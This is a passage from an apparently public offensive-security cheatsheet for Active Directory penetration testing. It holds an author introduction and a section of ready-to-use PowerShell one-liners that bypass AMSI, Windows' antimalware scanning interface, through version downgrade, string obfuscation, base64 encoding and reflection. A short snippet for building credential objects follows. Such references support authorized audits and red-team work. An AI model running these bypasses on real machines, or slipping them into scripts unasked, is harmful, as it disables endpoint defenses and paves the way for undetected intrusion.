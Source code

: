 # Active Directory Mind Map

This cheatsheet is built from numerous papers, GitHub repos and GitBook, blogs, HTB boxes and labs, and other resources found on the web or through my experience. This was originally a private page that I made public, so it is possible that I have copy/paste some parts from other places and I forgot to credit or modify. If it the case, you can contact me on my Twitter [**@BlWasp\_**](https://twitter.com/BlWasp\_).

I will try to put as many links as possible at the end of the page to direct to more complete resources.

## Misc

### Internal audit mindmap



<figure><img src="../.gitbook/assets/pentest_ad_dark_2023_02.svg" alt=""><figcaption></figcaption></figure>

### Bypass AMSI

```powershell
#Downgrade PowerShell
powershell -v 2 -c "<...>"

#Classic
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )

#Base64
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)

#Force AMSI error
$w = 'System.Management.Automation.A';$c = 'si';$m = 'Utils'
$assembly = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $w,$c,$m))
$field = $assembly.GetField(('am{0}InitFailed' -f $c),'NonPublic,Static')
$field.SetValue($null,$true)

#On PowerShell 6
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('s_amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

### Create PowerShell credentials

```powershell
$pass = ConvertTo-SecureString "Password123!" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("DOMAIN\user", $pass)
```

